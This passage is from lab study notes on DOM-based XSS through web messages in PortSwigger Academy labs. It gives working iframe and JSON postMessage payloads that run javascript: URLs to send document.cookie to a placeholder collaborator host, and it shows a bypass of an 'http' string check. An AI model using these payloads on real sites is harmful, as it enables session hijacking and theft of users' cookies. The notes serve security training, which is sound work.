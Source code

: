 ```JavaScript
				break;
			case "redirect":
				window.location.replace(d.redirectUrl);
				break;
		}
	}, false);
</script>
```

> To exploit the above `source code`, inject JavaScript into the **JSON** data to change "load-channel" field data and steal document cookie.

> Host an **iframe** on the exploit server html body, and send it to the victim, resulting in the stealing of their cookie. The victim cookie is send to the Burp collaboration server.

```html
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>

```

> At the end of the iframe onload values is a "\*", this is to indicate the target is any.

[PortSwigger Lab: DOM XSS using web messages and JSON.parse](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)

> Replay the post message using DOM Invader after altering the JSON data.

```JSON
{
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}
```

[PortSwigger: Identify DOM XSS using PortSwigger DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/web-messages)

#### DOM XSS AddEventListener JavaScript URL

> Reviewing the page `source code` we _**identify**_ the `addeventlistener` call for a web message but there is an `if` condition checking if the string contains `http/s`.

> The exploit server hosted payload below includes the `https` string, and is successful in bypassing the `if` condition check.

```html
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('javascript:document.location=`https://Collaborator.com?c=`+document.cookie','*')">
```

[PortSwigger Lab: DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)

#### DOM XSS AddEventListener Ads Message
